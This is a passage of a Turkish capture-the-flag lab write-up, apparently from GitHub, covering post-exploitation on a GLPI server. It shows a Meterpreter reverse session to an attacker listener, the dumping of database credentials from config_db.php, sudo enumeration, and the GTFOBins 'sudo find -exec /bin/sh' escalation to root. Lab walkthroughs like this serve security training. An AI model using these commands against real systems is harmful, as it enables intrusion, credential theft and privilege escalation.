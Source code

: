 ````bash
[*] Meterpreter session 1 opened (10.8.1.33:4444 -> 172.20.1.33:59126) at 2024-03-30 13:50:33 -0400

meterpreter > 
````

Meterpreter session'ımız açıldı. Bizden istenen bilgiyi bulalım.

`/var/www/html/glpi/config` dizininde `config_db.php` dosyasıda istenen bilgiler mevcut.

````bash
meterpreter > cat config_db.php
<?php
class DB extends DBmysql {
   public $dbhost = 'localhost';
   public $dbuser = 'glpiuser';
   public $dbpassword = 'glpi-password';
   public $dbdefault = 'glpi';
   public $use_timezones = true;
   public $use_utf8mb4 = true;
   public $allow_myisam = false;
   public $allow_datetime = false;
   public $allow_signed_keys = false;
}
````

3- Hangi komut sudo ayrıcalıkları ile çalıştırılabilir?

Bunu öğrenmek için `sudo -l` komutunu kullanabiliriz.

````bash
meterpreter > shell
Process 639 created.
Channel 2 created.
sudo -l
Matching Defaults entries for www-data on debian:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on debian:
    (ALL : ALL) NOPASSWD: /bin/find
````

Find komutunu parola olmadan çalıştırabileceğimizi gördük.

4- backup.zip parolası nedir?

````bash
sudo find / -name "backup.zip"
find: ‘/proc/630/task/630/net’: Invalid argument
find: ‘/proc/630/net’: Invalid argument
/root/backup.zip
````

backup.zip dosyası root dizininde yetki yükseltmemiz gerekecek. Find komutu ile nasıl yetki yükselteceğimizi [GTFO](https://gtfobins.github.io/gtfobins/find/) sitesinden öğrenebiliriz.

Kullanacağımız komut `sudo find . -exec /bin/sh \; -quit`
